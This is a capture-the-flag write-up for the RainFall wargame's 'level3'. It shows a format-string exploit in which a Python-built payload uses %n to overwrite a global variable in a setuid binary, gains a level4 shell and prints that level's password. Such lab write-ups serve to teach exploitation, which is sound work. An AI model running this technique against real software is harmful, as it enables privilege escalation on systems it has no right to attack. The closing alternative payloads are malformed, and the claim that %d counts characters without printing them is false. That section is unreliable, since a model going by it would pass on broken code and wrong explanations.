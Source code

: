 level3
======

*	We spawn with a [level3](src/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484a4  v
	0x0804851a  main
	...
	```
*	We have two functions `v` and `main`
	-	`main` just calls `v`
	-	`v` does many things :
		-	declares a var of `520` char
		-	`fgets()` on it with a max size of 512 (fgets is overflow protected because of bound checking)
		-	`printf` the variable
		-	check if the global var `m` is equal to `0x40`
			-	if so execute a shell
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```
*	There are two other ways to do this :
	-	Use the bytes printed with the `%x` to add bytes to the count without random char
		```console
		level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 41 + "%x%x%x$n"' > /tmp/test
		```
		Those flags are 19 bytes heavy when we print them `(200 b7fd1ac0 b7ff37d0) -> 19` so we end up adding only 41 bytes.
	-	And the last is to use the `%d` specifier, from what I understood, it shares the same `count` as the `%n` specifier and so it "prints" the char needed to obtain the number you want without really printing it (avoiding space limitations and using my brain to count the bytes)
		```console
		level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%d64$4$n"' > /tmp/test
		```